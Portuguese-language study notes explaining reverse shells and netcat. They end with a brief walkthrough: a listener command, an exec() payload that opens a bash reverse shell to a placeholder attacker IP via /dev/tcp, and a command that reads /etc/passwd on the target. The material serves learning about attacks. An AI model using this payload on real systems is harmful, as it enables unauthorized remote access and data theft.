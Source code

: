 # Shell Reverse

O shell reverso é uma técnica para obter um terminal remoto em outro computador invertendo a direção da conexão: em vez de você se conectar ao servidor, é o servidor que se conecta ao seu computador. Isso cria um terminal remoto que permite executar comandos no servidor a partir do seu computador.

## Como funciona (resumido)
* O atacante prepara um computador para escutar conexões.
* O computador alvo (servidor) executa um programa que abre uma conexão de saída para o computador do atacante.
* Quando a conexão é estabelecida, o atacante passa a ter um shell (terminal) no servidor e pode executar comandos remotamente.

## Vantagem dessa abordagem
* Funciona em ambientes onde o servidor está protegido por firewall ou NAT que bloqueiam conexões de entrada e conexões de saída costumam ser permitidas.

## Limitações e riscos
* O acesso pode ser temporário: se o servidor trocar de IP, for reiniciado, ou perder a conexão, é preciso refazer o processo.
* Firewalls, sistemas de detecção e políticas de rede podem bloquear ou detectar a conexão de saída.
* Manter acesso por muito tempo aumenta a chance de ser detectado e bloqueado.


## Ferramentas
* Existem ferramentas simples (como o netcat) que permitem configurar um lado para escutar e outro para conectar,.

O que o atacante faz quando tem o shell
* Ele digita comandos no terminal do próprio computador; esses comandos são executados diretamente no servidor alvo, é como ter um terminal físico ligado naquele servidor.


# Netcat
É uma ferramenta que permite ler e escrever dados pela rede usando o protocolo TCP ou UDP.
 
**Execução do Netcat**

No nosso terminal:
* NC -NVLP 80  ← listening mode na porta 80

No entrada da máquina alvo:
* echo exec(“whoami”);
* exec(“/bin/bash -c ‘bash -i >& /dev/tcp/\”IP_ATACANTE\”/80 0>&1””’);
* exec() executa o código no terminal do sistema e retorna o resultado no nosso terminal)
* cat /etc/passwd -> Verificar todos os usuários
